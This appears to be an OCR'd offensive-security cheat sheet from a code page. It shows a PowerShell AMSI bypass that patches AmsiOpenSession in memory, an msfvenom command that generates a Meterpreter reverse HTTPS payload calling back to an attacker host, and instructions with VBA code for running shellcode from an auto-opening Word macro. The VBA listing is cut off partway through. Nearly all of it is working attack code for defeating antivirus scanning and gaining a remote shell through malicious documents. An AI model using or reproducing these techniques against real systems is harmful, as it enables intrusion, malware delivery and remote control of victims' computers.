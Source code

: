 ```
  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)





# BASIC WITH NO ANTIVIRUS

The theory is always to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, &H3000, &H40)`
2. Copy shellcode byte by byte into memory location with `RtlMoveMemory(destination, source, length)`
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`. startAddress here is the return value of `VirtualAlloc()` in step 1.

# For 64-bit!
[32-bit here](#for-32-bit)

First prepare the shellcode:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
```